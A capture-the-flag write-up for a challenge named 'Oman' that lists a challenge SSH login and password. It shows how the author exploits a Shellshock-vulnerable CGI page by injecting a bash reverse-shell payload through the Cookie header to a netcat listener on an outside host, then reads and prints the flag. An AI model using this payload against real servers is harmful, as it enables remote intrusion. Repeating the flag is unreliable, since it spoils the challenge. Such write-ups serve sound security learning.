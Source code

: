 # Country(200):  Oman
----------
Description:  Find flag.txt and get the flag!

http://52.9.13.75:8888/index.cgi

*** NOTE:
Please SSH into the following box and do your exploits from there. Otherwise you'll get blocked by CK security systems.

ssh ckctf@54.241.154.223
password is: P@ssw0rd!}
----------
Hint:  Getting a SHELL can be SHOCKING!
----------
Attachments:  []
~!|----------|!~

This one seems to be vulnerable to the "shell shock" vulnerabilitiy

```
~ # curl -vv http://52.9.13.75:8888/index.cgi                                                                                                                                                                               root@5888aef1c272
*   Trying 52.9.13.75...
* TCP_NODELAY set
* Connected to 52.9.13.75 (52.9.13.75) port 8888 (#0)
> GET /index.cgi HTTP/1.1
> Host: 52.9.13.75:8888
> User-Agent: curl/7.61.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Mon, 22 Oct 2018 20:14:48 GMT
< Server: Apache/2.4.10 (Debian)
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/html
<
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Hello World</title>
</head>
<body>
<p>
Hello World!
</p>
</body>
</html>
* Connection #0 to host 52.9.13.75 left intact
```

the exploit was much easier than i anticipated,

i basically created a "hackbox" on do, inside of which i started netcat in listening mode

```
root@hackbox:/opt/metasploit-framework# nc -vlp 4444
```

then i proceded to inject a reverse shell payload through the cookie header
```
curl -vv -H "Cookie:() { :; }; /bin/bash -c /bin/bash -i > & /dev/tcp/142.93.194.254/4444 0>&1 &" http://52.9.13.75:8888/index.cgi
```

this allowed the bash session to show up on the DO box:
```
root@hackbox:/opt/metasploit-framework# nc -vlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [52.9.13.75] port 4444 [tcp/*] accepted (family 2, sport 39332)

ls
index.cgi
index.html
cat /etc/flag.txt
CK{76c81527ed52d989aab719271c63569895e2fb20}
^C
```

and that was it, easy peasy, i still lost to alex tho :(